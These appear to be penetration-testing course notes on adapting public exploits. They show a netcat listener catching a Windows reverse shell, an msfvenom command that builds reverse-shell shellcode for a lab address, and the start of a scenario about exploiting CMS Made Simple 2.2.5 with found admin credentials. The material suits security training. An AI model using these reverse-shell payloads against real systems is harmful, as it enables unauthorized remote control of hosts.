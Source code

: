 Finally, we'll switch to our Netcat listener.
```
listening on [any] 443 ...
connect to [10.11.0.4] from (UNKNOWN) [10.11.0.22] 49662
Microsoft Windows [Version 10.0.10240]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
+ **Note**: good non-staged reverse shell on windows for netcat listener: `windows/shell_reverse_tcp`, example:
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.162 LPORT=1990 -f python -b "\x00\x20" -v shellcode
```

## Fixing Web Exploits 
Web exploits are significantly easier to re-purpose
+ Web application vulnerabilities can often lead to database information leaks or even full control of the underlying system

### Considerations and Overview 
Even if we might not have to deal with hex-encoded payloads in web exploits, it is important to properly read the code and understand what considerations must be taken in our editing process

When modifying web exploits, there are several key questions we generally need to ask while approaching the code:
- Does it initiate an HTTP or HTTPS connection?
- Does it access a specific web application path or route?
- Does the exploit leverage a pre-authentication vulnerability?
- If not, how does the exploit authenticate to the web application?
- How are the GET or POST requests crafted to trigger and exploit the vulnerability? Is there any HTTP method involved?
- Does it rely on default application settings (such as the web path of the application) that may have been changed after installation?
- Will oddities such as self-signed certificates disrupt the exploit?

We must also remember that public web application exploits do not take into account additional protections such as _.htaccess_ files or _Web Application Firewalls_ (WAF)
+ This is mainly because the exploit author cannot possibly know about all these protections during the development process, making them out of scope

### Selecting the Vulnerability and Fixing the Code
Let's consider the following scenario: during an assessment, we discover a Linux host with an exposed _apache2_ server
+ After enumerating the web server, we discover an installation of _CMS Made Simple_ version 2.2.5 listening on TCP port 443
+ This version appears to be vulnerable to remote code execution with a public exploit available on Exploit-DB

Although this vulnerability is post-authentication, we discovered valid application credentials (`admin / HUYfaw763`) on another machine during the enumeration process.
